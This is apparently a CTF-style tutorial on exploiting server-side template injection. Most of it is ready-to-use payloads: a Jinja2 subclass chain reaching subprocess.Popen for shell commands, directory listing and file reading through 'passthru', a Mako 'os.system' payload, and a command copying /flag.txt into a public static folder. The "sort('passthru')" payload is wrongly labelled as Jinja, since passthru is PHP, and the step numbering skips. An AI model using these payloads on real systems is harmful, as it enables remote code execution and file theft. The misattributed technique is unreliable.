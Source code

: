 # Server-Side Template Injection (SSTI) Exploitation Guide

## Overview
Server-Side Template Injection (SSTI) occurs when user input is embedded in templates on the server side without proper sanitization. This allows attackers to inject and execute arbitrary code using template engine syntax.

## Detection and Exploitation Steps

### 1. Find Injection Point
Look for a user input field that is reflected back on another page. For example, if changing a name in the user profile reflects that change elsewhere, this is a possible injection point.

### 2. Test for SSTI Vulnerability & Identify Template Engine
This page will go through an example with the jinja template engine. To figure out what engine is being used, refer to the following template:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)

Insert the following basic payload and see if it's executed:
```jinja
{{7+7}}
```
If the result shows `14`, then the template engine is likely evaluating the expression.

### 3. Inject Payload
Modify the data field in the intercepted request to reflect information:
```jinja
{{['ls','']|sort('passthru')}}
```
This leverages jinja's `sort` function to execute `ls` and list directory contents.

### 5. View Execution Results
Visit the page where the data is reflected to observe command output.

### 6. Navigate Folders
To change directories and list contents:
```jinja
{{['cd+FOLDER;ls','']|sort('passthru')}}
```

### 8. Read Files
To read a file such as `FILE.txt` in a folder:
```jinja
{{['cat+FOLDER/FILE.txt;ls','']|sort('passthru')}}
```

> **Note:** Receiving a 500 Internal Server Error response can be a positive sign indicating attempted code evaluation.

---

## Troubleshooting SSTI

### 1. Template Engine Detection
Use the following test input template to identify the backend template engine:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)

Through this example, we will be using jinja again.

### 2. Inspect Evaluation
Test with:
```jinja
{{request}}
```
If the response is a 500 error, it's likely being evaluated.

### 3. Dump All Python Subclasses (Jinja2)
Try the following to get all subclasses:
```jinja
{{''.__class__.mro()[1].__subclasses__()}}
```

### 4. Search for `subprocess.Popen`
Iterate through indexes:
```jinja
{{''.__class__.mro()[1].__subclasses__()[390]}}
{{''.__class__.mro()[1].__subclasses__()[391]}}
...
```
Look for: `<class 'subprocess.Popen'>`

### 5. Execute Commands
Once found (example index: 356), use:
```jinja
{{''.__class__.mro()[1].__subclasses__()[356]('id', shell=True, stdout=-1).communicate()[0]}}
```
Replace `'id'` with any other shell command you want to execute.

---

## Example: Mako Template Exploitation (Python)
If the backend uses Mako:

### 1. Execute OS Commands
Try:
```mako
${self.module.cache.util.os.system("id")}
```
If the output of `id` is shown, command execution is successful. If it returns `0`, that means the command executed, but no output is shown.

### 2. Exfiltrate Flags
Use the following to copy a flag file to a public directory:
```mako
${self.module.cache.util.os.system("cp /flag.txt /app/application/static/css")}
```

### 3. Access the File
Then you can `curl` or access the flag via a browser by navigating to the public directory.

---
